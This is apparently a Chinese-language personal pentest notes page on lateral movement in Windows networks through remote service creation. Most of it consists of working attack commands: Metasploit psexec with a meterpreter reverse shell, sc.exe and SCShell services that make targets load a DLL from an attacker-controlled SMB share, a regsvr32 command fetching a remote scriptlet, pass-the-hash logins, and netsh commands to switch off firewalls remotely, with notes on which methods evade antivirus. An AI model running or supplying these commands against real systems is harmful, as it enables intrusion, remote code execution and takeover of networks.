 ```yaml
---
title: sc远程服务横向移动
categories:
- windows
tags:
- windows
---
```

# 横向移动手法介绍教程
1. https://www.bilibili.com/video/BV1Hz4y1Z7pJ
2. https://www.bilibili.com/video/BV1Hz4y1Z7pJ?p=2
3. https://www.bilibili.com/video/BV1Hz4y1Z7pJ?p=3

## smbmap信息搜集

远程管理必须使用Admin$

查看远程共享
```
smbmap -H 192.168.123.45

smbmap -u administrator -p 123456 -d workgroup -H 192.168.123.45
```
## msf psexec （成功，不免杀，开启防火墙则无效）
使用的是139，445端口，目标机器必须开放这个端口。
```
1. impacket-smbserver
2. msf psexec

use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
set RHOST 192.168.123.45
set LPORT <Local Port>
set LHOST <Local IP>
set SMBUSER <local admin username>
set SMBPASS <local admin password>
exploit
```
漏洞利用，使用口令去进行命令执行
mimikatz，windows明文密码放在桌面，暴力破解，

## psexec.py（成功，不免杀，开启防火墙则无效）
python /usr/share/doc/python-impacket/examples/psexec.py workgroup/administrator@192.168.123.45 cmd.exe

## sc.exe （成功，开启防火墙也有效，不免杀）
开启rundll32的反弹shell监听服务器，不会的可以看这个视频：https://www.bilibili.com/video/BV1ey4y1k7PA/

```
激活管理员账号
net user administrator /active:yes

net use \\192.168.123.45\admin$ /user:"administrator" "123456"

net use \\192.168.123.45\admin$ /del

net share可以查看本机开放的资源

sc \\192.168.123.45 create whaleReverse15 binpath= "C:\windows\system32\cmd.exe /c C:\windows\system32\rundll32.exe \\192.168.123.123\Azye\test.dll,0"

sc \\192.168.123.45 start whaleReverse15
```
## csexec（能过360，但不能过windows防火墙）
```
net user administrator 123456
net use \\192.168.28.1\admin$ /user:"administrator" "qwf123!!"
csexec.exe \\192.168.28.1 cmd.exe
操作超时

net use \\192.168.123.45\admin$ /user:"administrator" "123456"
csexec.exe \\192.168.123.45 cmd.exe
没有安装./net2

net use \\192.168.123.184\admin$ /user:"administrator" "123456"
csexec.exe \\192.168.123.45 cmd.exe
```
# 用法有点复杂，没有继续看的工具
##  scshell
```
使用这篇反弹shell “https://whale3070.github.io/tools/2020/10/04/11-x/”中提到的Regsvr32.exe

regsvr32 /s /n /u /i:http://192.168.123.123:8080/6IEDA48otwgL.sct
生成一个注册表

SCShell.exe 192.168.123.45 filepermsvc "C:\windows\system32\cmd.exe /c C:\windows\system32\rundll32.exe \\192.168.123.123\rDAEep\test.dll,0" . administrastor 123456

regsvr32 /s /n /u /i:http://192.168.123.123:8080/6IEDA48otwgL.sct scrobj.dll
rundll32.exe \\192.168.123.123\MJear\test.dll,0

python scshell.py -target-ip 192.168.123.45 -service-name filepermsvc -no-cmd " C:\windows\system32\rundll32.exe \\192.168.123.123\rDAEep\test.dll,0" . administrastor 123456

SharpMove.exe action=query computername=192.168.123.45 query="filepermsvc" username=administrastor password=123456

SCShell.exe 192.168.123.45 filepermsvc "C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj" . administrator 123456
```
2020.10.07
```
python3 scshell.py WORKGROUP/WIN-U8OIU3QM15C@192.168.123.45 -hashes aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71
C:\windows\system32\cmd.exe /c C:\windows\system32\rundll32.exe \\192.168.123.123\wLWQND\test.dll,0
```
原理：
```
sc config filepermsvc binpath= "C:\windows\system32\cmd.exe /c C:\windows\system32\rundll32.exe 
\\192.168.123.123\wLWQND\test.dll,0"

目标机器本地执行成功
C:\Users\Administrator\Desktop\SCShell.exe local filepermsvc "C:\windows\system32\cmd.exe /c C:\windows\system32\rundll32.exe \\192.168.123.123\hltzs\test.dll,0" . administrator 123456

攻击机器执行：
D:\文件同步\tmp\横向移动参考资料\工具\SCShell-master\SCShell-master\SCShell.exe 192.168.123.45 filepermsvc "C:\windows\system32\cmd.exe /c C:\windows\system32\rundll32.exe \\192.168.123.123\hltzs\test.dll,0" . administrator 123456
```
## sharpmove
```
SharpMove.exe action=startservice computername=remote.host.local servicename=TestService
```
## 关闭防火墙命令
关闭公网上的防火墙
netsh advfirewall set  currentprofile state off

关闭内网中的防火墙
netsh advfirewall set privateprofile state off

### 远程关闭防火墙
netsh -r 192.168.123.45 -u administrator -p 123456 -c advfirewall set allprofiles state on
https://docs.microsoft.com/en-us/troubleshoot/windows-server/networking/netsh-advfirewall-firewall-control-firewall-behavior

https://www.windows-commandline.com/enable-disable-firewall-command-line/

## 参考资料
https://pentestlab.blog/2020/07/21/lateral-movement-services/

https://github.com/Mr-Un1k0d3r/SCShell

https://github.com/0xthirteen/MoveKit

https://github.com/0xthirteen/SharpMove

https://github.com/0xthirteen/SharpRDP



